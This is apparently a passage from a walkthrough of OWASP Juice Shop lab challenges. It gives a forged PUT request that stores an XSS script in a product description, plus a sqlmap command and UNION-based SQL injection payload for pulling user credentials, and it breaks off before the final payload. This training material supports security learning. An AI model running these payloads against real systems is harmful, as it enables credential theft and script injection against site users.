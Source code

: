 #### 17: "XSS Tier 3: Perform a persisted XSS attack without using the frontend application at all."
* no pre-solved challenge necessary

Okay, so if we want to change something somewhere, we can't use HTTP GET, but we need to PUT something somewhere. We will forge our own packet that will update the description of a product containing the script.

When we search for a product in the shop we can see that the request looks like this: `GET /rest/product/search?q=O-Saft`.

If then open the product and request more information (Eye-Symbol), we can see a request `GET /api/Products/8?d=Thu%20Nov%2010%202016 HTTP/1.1`

If we open `http://192.168.99.100:3000/api/Products/8` directly, we get a JSON file displayed. As you can see, this is the same data, but it has no graphical frontend. We will use the API to send a PUT request to that updates the description of a product with our script.

Let's forge a packet ... (You can use Burp Repeater to make re-sending it easier.)

```
PUT /api/Products/8 HTTP/1.1
Host: 192.168.99.100:3000
Content-Type: application/json;charset=utf-8
Content-Length: 276
Connection: close

{"description":"<script>alert(\"XSS3\")</script>O-Saft is an easy to use tool ..."}
```

> _You can "turn off" the alert again by just sending the same PUT request, but removing the script, so it doesn't get executed anymore._

#### 18: "Retrieve a list of all user credentials via SQL Injection"
* no pre-solved challenge necessary

We will use the following parameters:
* URL : http://192.168.99.100:3000
* Path : /rest/product/search/
* Parameter : q
* Database : sqlite (open information from the website, but sqlmap can find this out too)

So the command look like this:

`sqlmap -u 'http://192.168.99.100:3000/rest/product/search?q=something' -p 'q' --dbms='sqlite'`

I had to increase the risk level to 2 to get results:

`--level=2`

My succeeding payload is: `q=something')) UNION ALL SELECT NULL,'qzbxq'||'mZqQCoizQFtquCOMVIMxLCpyaAjHXowBYRJPxgIJ'||'qzkvq',NULL,NULL,NULL,NULL,NULL,NULL-- FlvR` (this might look different for you)

We can now extract the general schema behind this query:
* we don't need anything that comes after the comment `--`
* we will add `from users` before the comment to retrieve the data from the users table
* we can substitute `'qzbxq'||'mZqQCoizQFtquCOMVIMxLCpyaAjHXowBYRJPxgIJ'||'qzkvq'` for `email` or `password` (this is just guessing of the column name) to see the results printed on the screen
* Simply by trying and replacing `NULL` values with guessed column names, we can forge a payload that returns the emails and their hashed passwords:
